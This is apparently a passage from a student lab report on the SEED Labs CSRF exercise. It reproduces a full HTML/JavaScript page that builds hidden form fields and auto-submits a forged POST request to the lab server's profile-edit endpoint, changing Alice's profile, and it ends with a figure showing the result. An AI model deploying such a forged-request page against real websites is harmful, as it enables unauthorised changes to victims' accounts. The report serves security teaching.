 \subsection{Task 3 --- CSRF Attack using POST Request}
%
\begin{lstlisting}[language=HTML, caption=Changes in {\fontfamily{qcr}\selectfont editprofile.html},
    label={lst:editprofile_html}]
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>"; // change here
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>"; // change here
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>"; // change here

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit"; // change here
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}

\begin{figure}
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/editprofile_alice.png}
    \caption{Showing ``Samy is my hero'' in the Alice's profile page.}
    \label{fig:edited_alice_profile}
\end{figure}

